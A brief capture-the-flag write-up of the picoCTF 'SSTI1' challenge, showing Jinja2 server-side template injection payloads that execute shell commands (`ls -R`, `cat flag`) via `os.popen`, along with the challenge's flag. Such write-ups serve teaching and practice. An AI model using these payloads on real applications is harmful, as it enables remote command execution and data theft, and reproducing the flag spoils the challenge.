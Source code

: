 ```
# SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!
```

Launch an instance, you'll be presented with an "announcement" box.

Messing around with Jinja2 syntax, `{{ 7 * 7}}`, the output is surprising:

![](1.png)

What are we waiting for? Let's straight executing shell commands!

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
> .: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc

{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```
